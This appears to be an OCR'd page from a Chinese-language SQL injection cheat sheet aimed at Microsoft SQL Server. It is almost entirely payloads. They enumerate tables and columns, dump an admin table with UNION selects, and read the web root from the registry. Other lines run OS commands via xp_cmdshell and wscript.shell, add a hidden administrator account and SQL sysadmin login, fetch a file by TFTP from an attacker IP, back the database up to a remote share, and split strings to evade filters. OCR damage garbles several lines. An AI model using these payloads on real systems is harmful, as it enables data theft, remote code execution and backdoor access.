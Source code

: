 依次可以得到密码。。。。。假设存在user_id username ,password 等字段
```
and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6) 
and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype=U) 得到表名 
and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype=U and name not in(Address)) 
and 0<>(select count(*) from bbs.dbo.sysobjects where xtype=U and name=admin and uid>(str(id))) 判断id值 
and 0<>(select top 1 name from BBS.dbo.syscolumns where id=773577794) 所有字段

?id=-1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,* from admin 
?id=-1 union select 1,2,3,4,5,6,7,8,*,9,10,11,12,13 from admin (union，access也好用)
```


得到WEB路径 
```
;create table [dbo].[swap] ([swappass][char](255));-- 
and (select top 1 swappass from swap)=1-- 
;CREATE TABLE newtable(id int IDENTITY(1,1),paths varchar(500)) Declare @test varchar(20) exec master..xp_regread @rootkey=HKEY_LOCAL_MACHINE,

@key=SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots\, @value_blank

>_name=/, values=@test OUTPUT insert into paths(path) values(@test)-- 
;use ku1;-- 
;create table cmd (str image);-- 建立image类型的表cmd
```

存在xp_cmdshell的测试过程： 
```
;exec master..xp_cmdshell dir 
;exec master.dbo.sp_addlogin jiaoniang$;-- 加SQL帐号 
;exec master.dbo.sp_password null,jiaoniang$,1866574;-- 
;exec master.dbo.sp_addsrvrolemember jiaoniang$Content$nbsp;sysadmin;-- 
;exec master.dbo.xp_cmdshell net user jiaoniang$Content$nbsp;1866574 /workstations:* /

times:all /passwordchg:yes /passwordreq:yes /active:yes /add;-- 
;exec master.dbo.xp_cmdshell net localgroup administrators jiaoniang$Content$nbsp;/add;-- 
exec master..xp_servicecontrol start, schedule 启动服务 
exec master..xp_servicecontrol start, server 
; DECLARE @shell INT EXEC SP_OACREATE wscript.shell,@shell OUTPUT EXEC SP

_OAMETHOD @shell,run,null, C：\WINNT\system32\cmd.exe /c net user jiaonian

g$Content$nbsp;1866574 /add 
;DECLARE @shell INT EXEC SP_OACREATE wscript.shell,@shell OUTPUT EXEC S

P_OAMETHOD @shell,run,null, C：\WINNT\system32\cmd.exe /c net localgroup

administrators jiaoniang$Content$nbsp;/add 
; exec master..xp_cmdshell tftp -i youip get file.exe-- 利用TFTP上传文件

;declare @a sysname set @a=xp_+cmdshell exec @a dir c:\ 
;declare @a sysname set @a=xp+_cm’+’dshell exec @a dir c:\ 
;declare @a;set @a=db_name();backup database @a to disk=你的IP你的共享目录bak.dat 
```
